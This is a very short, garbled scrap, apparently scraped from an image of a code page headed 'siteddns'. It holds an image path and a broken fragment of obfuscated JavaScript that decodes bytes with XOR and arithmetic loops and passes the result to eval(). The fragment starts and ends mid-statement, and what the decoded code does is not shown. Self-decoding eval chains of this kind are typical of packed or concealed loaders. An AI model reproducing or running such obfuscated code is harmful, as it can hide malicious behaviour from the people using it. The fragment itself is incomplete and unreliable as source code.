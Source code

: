  # siteddns
44)break;m[o]=(((((-m[o])&0xff)+201)&0xff)+208)&0xff;o++;}";eval(o);o="o=4;do{m[o]=(((((m[o]^210)-96)&0xff)
